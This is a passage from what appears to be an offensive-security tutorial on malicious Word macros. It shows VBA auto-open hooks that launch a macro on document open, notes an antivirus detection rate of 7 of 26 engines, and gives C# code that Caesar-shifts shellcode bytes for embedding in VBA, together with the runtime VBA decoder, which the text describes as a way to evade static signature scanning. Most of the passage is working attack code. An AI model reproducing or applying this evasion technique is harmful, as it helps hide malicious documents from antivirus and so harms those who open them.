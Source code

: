 ```visual-basic
Sub Document_Open()
    mymacro
End Sub

Sub AutoOpen()
    mymacro
End Sub

End Function
```

🔎 Detection: **7/26 AV engines flagged it** (signatures + behavior).

---

## 🔹 2. Encrypting the Shellcode (Caesar Cipher)

To evade **static signature scanning**, shellcode is **encrypted** and only decrypted at runtime.

### Encryption (done in C# before embedding into VBA)

```csharp
byte[] encoded = new byte[buf.Length];
for (int i = 0; i < buf.Length; i++)
{
    encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
}

uint counter = 0;

StringBuilder hex = new StringBuilder(encoded.Length * 2);
foreach (byte b in encoded)
{
    hex.AppendFormat("{0:D}, ", b);
    counter++;
    if (counter % 50 == 0)
    {
        hex.AppendFormat("_{0}", Environment.NewLine);
    }
}
Console.WriteLine("The payload is: " + hex.ToString());

```

- Each byte shifted by +2 (`& 0xFF` ensures byte range).
- Output formatted for **VBA array insertion** (comma-separated, line breaks every 50 bytes).

---

### Decryption (runtime in VBA)

```vbnet
For i = 0 To UBound(buf)
    buf(i) = buf(i) - 2
Next i
```
